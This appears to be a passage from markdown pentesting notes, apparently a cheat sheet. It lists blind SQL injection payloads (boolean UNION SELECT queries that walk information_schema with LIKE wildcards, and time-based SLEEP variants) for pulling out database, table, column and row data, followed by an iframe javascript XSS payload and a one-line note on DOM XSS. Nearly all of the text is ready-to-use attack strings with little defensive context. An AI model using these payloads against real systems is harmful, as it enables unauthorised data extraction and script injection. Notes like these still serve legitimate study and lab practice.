 
```
' UNION SELECT 1,2,3 where database() like '%';--
```
enumerates database name by scrolling through the wildcard '%' values

```
' UNION SELECT 1,2,3 FROM information_schema.tables 
WHERE table_schema = '[[DATABASE NAME]]' and table_name like 'a%';--
```
enumerates table name by scrolling through the wildcard '%' values

```
' UNION SELECT 1,2,3 FROM information_schema.COLUMNS 
WHERE TABLE_SCHEMA='[[DATABASE_NAME]]' and TABLE_NAME='[[TABLE_NAME]]' and COLUMN_NAME like 'a%';--
```
enumerates column name by scrolling through the wildcard '%' values

```
' UNION SELECT 1,2,3 FROM information_schema.COLUMNS 
WHERE TABLE_SCHEMA='[[DATABASE_NAME]]' and TABLE_NAME='[[TABLE_NAME]]' and COLUMN_NAME like 'a%' and COLUMN_NAME !='id'	
```
Again you'll need to cycle through letters, numbers and characters until you find a match. 
>As you're looking for multiple results, you'll have to add this to your payload each time you find a new column name,

```
' UNION SELECT 1,2,3 from [[TABLE_NAME]] where [[COLUMN_NAME]] like 'a%
```
cycles through valid column name entries
```
' UNION SELECT 1,2,3 from [[TABLE_NAME]] where [[COLUMN_NAME]]='[[VALID_ENTRY]]' and [[OTHER_COLUMN_NAME]] like 'a%
```
cycles through row entry data

### Time Based Return

```
' UNION SELECT SLEEP(5);--
```
Same as Boolean Return except when the SLEEP(5) function is hit - the return is equal to TRUE
```
' UNION SELECT SLEEP(5),2 where database() like 'u%';--
```
will sleep if the database name starts with the letter "u"

## XSS
 
```HTML
	<iframe src="javascript:alert(`xss`)"> 
```
	

## DOM XSS 
uses the HTML environment to execute malicious javascript. 
This type of attack commonly uses the script \script HTML tag

